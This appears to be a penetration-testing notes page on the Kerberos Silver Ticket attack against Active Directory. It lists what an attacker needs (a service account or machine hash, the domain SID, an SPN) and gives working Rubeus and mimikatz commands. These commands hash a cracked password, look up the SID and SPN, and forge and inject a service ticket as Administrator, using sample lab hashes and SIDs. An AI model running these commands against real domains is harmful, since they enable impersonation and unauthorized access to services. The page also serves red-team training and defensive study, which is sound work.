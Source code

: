 # Silver Ticket

Fake TGS we make it to access on specific service

We can use it when we have NTLM Hash for Service account (MSSQL, HTTP)

{% hint style="success" %}
Merge it with **Kerberoasting** attack to get SPN service hash
{% endhint %}

**to do forged Silver Ticket we need to**

* **Password hash for the service Account**
* **Domain SID**
* **SPN**

**or we need to**

* **Machine's NTLM hash**
* **Domain SID**
* **Hostname of Computer**
* **user to impersonate**

{% hint style="success" %}
after you get password from Kerbroasting attack we will hash it using rubeus
{% endhint %}

```powershell
.\Rubeus hash /password:P@ssw0rd
```

![image.png](<../../../../.gitbook/assets/image (2).png>)

**then domains SID**

```powershell
get-DomainSID
```

**GET SPN**

```powershell
Get-DomainUser -Identity SQLSvc |select serviceprincipalname

setspn -l sqlsvc
```

Launch the attack

```powershell
.\Rubeus.exe silver /service:MSSQLSvc/pdc.wargrey.mon:1433 /rc4:E19CCF75EE54E06B06A5907AF13CEF42 /sid:S-1-5-21-2141828725-255675156-4058838521 /user:Administrator /domain:wargrey.mon /ptt

# or
mimikatz “kerberos::golden /admin:Admin /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit

# or
kerberos::golden /user:Administrator /rc4:e882c92024e683640c00ae83d43b5c88 /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /domain:dollarcorp.moneycorp.local /service:HOST /ptt
```

